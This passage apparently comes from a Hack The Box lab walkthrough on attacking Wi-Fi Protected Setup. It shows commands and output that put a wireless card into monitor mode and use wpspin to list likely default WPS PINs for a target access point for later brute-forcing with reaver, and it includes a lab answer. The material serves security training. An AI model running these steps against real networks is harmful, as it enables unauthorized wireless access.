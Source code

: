 Answer: `98990987`

# Attacking Wi-Fi Protected Setup - Skills Assessment

## Question 2

### "What is the WPS PIN for the WiFi network named HackTheBox-Corp?"

Students will reuse the previously established RDP session. They will stop the previously started `wlan0mon` interface using `airmon-ng`:

Code: shell

```shell
airmon-ng stop wlan0mon
```

```
root@WiFiIntro:/home/wifi# airmon-ng stop wlan0mon

PHY	Interface	Driver		Chipset

phy2	wlan0mon	htb80211_chipset	HTB ChipSet of 802.11 radio(s) for mac80211

		(mac80211 station mode vif enabled on [phy2]wlan0)

		(mac80211 monitor mode vif disabled for [phy2]wlan0mon)
```

Subsequently, students will add a new interface `mon0` with `Monitor` mode enabled:

Code: shell

```shell
iw dev wlan0 interface add mon0 type monitor
ifconfig mon0 up
```

```
root@WiFiIntro:/home/wifi# iw dev wlan0 interface add mon0 type monitor
root@WiFiIntro:/home/wifi# ifconfig mon0 up
```

Students will use `wpspin` to generate possible predefined WPS pins that are going to be used further with `reaver` targeting the `72:40:6E:74:2F:3B` MAC address found using `airodump-ng` from the previous question:

```shell
wpspin -A 72:40:6E:74:2F:3B | grep -Eo '\b[0-9]{8}\b' | tr '\n' ' '
```
```
root@WiFiIntro:/home/wifi# wpspin -A 72:40:6E:74:2F:3B | grep -Eo '\b[0-9]{8}\b' | tr '\n' ' '

76142673 24952910 31080279 31080279 10149713 42705239 65814352 35934868 20660413 53157652 84636386 91629487 52285349 28428015 51018658 66505471 04217176 12345670 20172527 46264848 76229909 62327145 10864111 31957199 30432031 71412252 68175542 95661469 95719115 48563710 20854836 43977680 05294176 99956042 35611530 67958146 34259283 94229882 95755212
```
